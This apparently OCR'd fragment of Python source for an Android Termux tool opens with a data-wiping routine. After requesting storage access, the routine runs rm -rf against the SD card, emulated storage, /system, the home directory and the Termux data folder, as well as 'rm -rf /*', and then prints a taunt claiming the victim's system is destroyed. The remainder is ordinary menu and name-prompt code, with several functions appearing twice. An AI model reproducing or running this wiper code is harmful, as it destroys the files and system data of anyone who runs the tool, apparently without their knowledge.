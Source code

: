    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/");time.sleep(2)

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}');time.sleep(2)

def clear_layar():

	try:os.system('clear')

	except:pass

def back():

	try:your_name = open('.your_name.json','r').read()

	except:newbie()

def newbie():

	clear()

	print(logo)

	your_name = input(f'    [{H}√{P}]{K} YOUR NAME {M}? {P}: {warna} ');open('.your_name.json','w').write(your_name)

	main()

def clear_layar():

	try:os.system('clear')

	except:pass

def back():

	try:your_name = open('.your_name.json','r').read()
